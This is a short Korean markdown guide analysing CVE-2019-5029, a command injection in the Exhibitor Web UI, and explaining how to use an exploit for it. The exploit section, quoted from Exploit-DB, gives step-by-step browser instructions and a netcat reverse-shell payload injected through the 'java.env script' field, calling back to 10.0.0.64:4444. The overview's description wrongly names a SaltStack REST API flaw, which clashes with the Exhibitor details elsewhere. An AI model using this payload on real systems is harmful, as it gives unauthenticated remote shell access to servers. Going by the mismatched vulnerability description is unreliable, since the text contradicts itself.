

# CVE-2019-5029 분석 및 Exploit 사용법

## 개요
- **취약점명:** CVE-2019-5029
- **대상:** Exhibitor Web UI 버전 1.0.9부터 1.7.1까지
- **취약 유형:** OS 명령어 주입 (Command Injection)
- **위험도:** 치명적 (CVSS 9.8)
- **설명:** SaltStack 마스터 서버의 REST API가 인증 없이 외부 요청을 받아 권한 검증 없이 임의 명령 실행이 가능해지는 취약점

## 취약점 상세
  - 공격자가 백팃(\`)이나 \`$()\`로 감싼 임의의 쉘 명령어를 설정 편집기에 삽입할 수 있음
  - 이 명령어는 Exhibitor 프로세스가 ZooKeeper 실행 시에 실행됨
  - 공격자는 Exhibitor 프로세스 권한으로 임의의 명령을 실행 가능
  - 원격에서 인증 없이 공격 가능


## Exploit 예제
[Exploit-DB]https://www.exploit-db.com/exploits/48654
```javascript
The steps to exploit it from a web browser:

    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON

    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:

    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
    Click Commit > All At Once > OK
    The command may take up to a minute to execute.
```


